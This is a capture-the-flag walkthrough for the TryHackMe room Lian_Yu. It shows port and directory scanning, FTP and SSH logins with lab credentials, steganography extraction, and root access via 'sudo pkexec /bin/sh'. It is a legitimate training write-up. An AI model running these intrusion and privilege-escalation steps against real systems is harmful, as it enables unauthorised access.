 # Lian\_Yu

**Room Link:** [https://tryhackme.com/room/lianyu](https://tryhackme.com/room/lianyu)

### Initial Scan

**Kali**

<pre><code><strong>nmap -A $VICTIM
</strong></code></pre>

<figure><img src="../../.gitbook/assets/image (123).png" alt=""><figcaption></figcaption></figure>

### Scan all ports

No other ports found.

**Kali**

<pre><code><strong>nmap -sV -sT -O -p 1-65535 $VICTIM
</strong></code></pre>

<figure><img src="../../.gitbook/assets/image (56).png" alt=""><figcaption></figcaption></figure>

### TCP/80 - HTTP

**Kali**

```
gobuster dir -u http://$VICTIM -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,html,txt
```

<figure><img src="../../.gitbook/assets/image (98).png" alt=""><figcaption></figcaption></figure>





<figure><img src="../../.gitbook/assets/image (120).png" alt=""><figcaption></figcaption></figure>



<figure><img src="../../.gitbook/assets/image (101).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (129).png" alt=""><figcaption></figcaption></figure>



**Kali**

```
gobuster dir -u http://$VICTIM/island -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,html,txt
```

<figure><img src="../../.gitbook/assets/image (100).png" alt=""><figcaption></figcaption></figure>



<figure><img src="../../.gitbook/assets/image (68).png" alt=""><figcaption></figcaption></figure>



<figure><img src="../../.gitbook/assets/image (105).png" alt=""><figcaption></figcaption></figure>



**Kali**

```
gobuster dir -u http://$VICTIM/island/2100 -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -x ticket
```

<figure><img src="../../.gitbook/assets/image (53).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (70).png" alt=""><figcaption></figcaption></figure>



**Link:** [https://gchq.github.io/CyberChef/](https://gchq.github.io/CyberChef/)

<figure><img src="../../.gitbook/assets/image (12) (5).png" alt=""><figcaption></figcaption></figure>



## FTP

```
ftp $VICTIM
Username: vigilante
Password: !#th3h00d
mget *
```



**Kali**

```
exiftool Leave_me_alone.png 
sudo apt install ncurses-hexedit
```

<figure><img src="../../.gitbook/assets/image (9).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (118).png" alt=""><figcaption></figcaption></figure>

Change the first hex values to **89 50 4E 47 0D 0A** to make it .PNG then save the file

<figure><img src="../../.gitbook/assets/image (1) (5).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
exiftool Leave_me_alone.png
```

<figure><img src="../../.gitbook/assets/image (130).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (124).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
steghide info aa.jpg
Password: password
```

<figure><img src="../../.gitbook/assets/image (59).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
steghide extract -sf aa.jpg
Password: password
unzip ss.zip 
```

<figure><img src="../../.gitbook/assets/image (38).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (58).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (57) (2).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
ssh slade@$VICTIM
Password: M3tahuman
```



## Privilege Escalation

**Victim**

```
sudo -l
```



<figure><img src="../../.gitbook/assets/image (19).png" alt=""><figcaption></figcaption></figure>



**Victim**

```
sudo pkexec /bin/sh
```

<figure><img src="../../.gitbook/assets/image (112).png" alt=""><figcaption></figcaption></figure>























